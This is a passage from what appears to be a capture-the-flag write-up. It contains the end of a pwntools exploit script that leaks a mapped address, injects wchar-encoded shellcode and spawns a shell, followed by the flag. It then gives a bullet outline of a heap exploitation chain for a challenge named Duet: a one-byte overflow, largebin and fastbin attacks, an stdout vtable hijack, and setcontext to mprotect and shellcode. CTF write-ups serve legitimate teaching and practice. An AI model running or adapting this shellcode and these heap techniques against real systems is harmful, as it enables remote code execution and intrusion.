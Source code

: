```python3=
                res+=p8(0xfe)
                for j in range(6):
                    res+=p8(0x80|int(binstr[j*6:j*6+6],2))
        return res


if __name__ == '__main__':
  print(r.recvline())
  print(r.recvline())
  print(r.recvline())
  print(r.recvline())

  while 1:
    r.sendline("🍺"))
    print(r.recvline())
    r.recvuntil("@")
    data = r.recvline()
    mmap = int(data[:-1].decode(),16)
    print("mmap = {}".format(hex(mmap)))
    if(mmap & 0x8000):
      break
    print(r.recvline())
    print(r.recvline())
    print(r.recvline())
  print(r.recvline())
  print(r.recvline())
  print(r.recvline())
  r.sendline("🐴"))
  print(r.recvline())
  shellcode = convert(asm("xor eax,eax") + asm("add al,0"),"wchar")
  shellcode += convert(asm("xor edi,edi") + asm("add al,0"),"wchar")
  shellcode += convert(asm("xor edx,edx") + asm("add al,0"),"wchar")
  shellcode += convert(asm("add dh,cl") + asm("add al,0"),"wchar")
  shellcode += convert(asm("syscall") + asm("add al,0"),"wchar")
  r.sendline((convert(p32(mmap+0x88),"wchar") + convert(p32(0),"wchar"))*0x11 + convert(p32(mmap+0x90),"wchar") + convert(p32(0),"wchar")  + shellcode  +convert(p32(0x7fffffff),"wchar")*0x57 + convert(p32(0xd421),"wchar")*10)

  r.sendline(b"\x90"*0x50 + asm(shellcraft.sh()))
  time.sleep(0.3)
  r.sendline(b"ls")
  r.interactive()


```
`flag{thanks_Plaid_CTF_we_found_th1s}`
### Duet

* Option 5 can calloc 0x88 and input 1 byte overflow.
* Heap overlap will leak libc & heap.
* Largebin attack global_max_fast.
* Fastbin attack stdout to get stdout buffer (stdout flag is 0x000000fbxxxxxx, so 0x000000fb can use to be fastbin size).
* Change puts stdout vtable to _IO_wfile_sync, and contorl rip & rdi.
* Jump magic and setcontext to call mprotect, and finally execute shellcode.
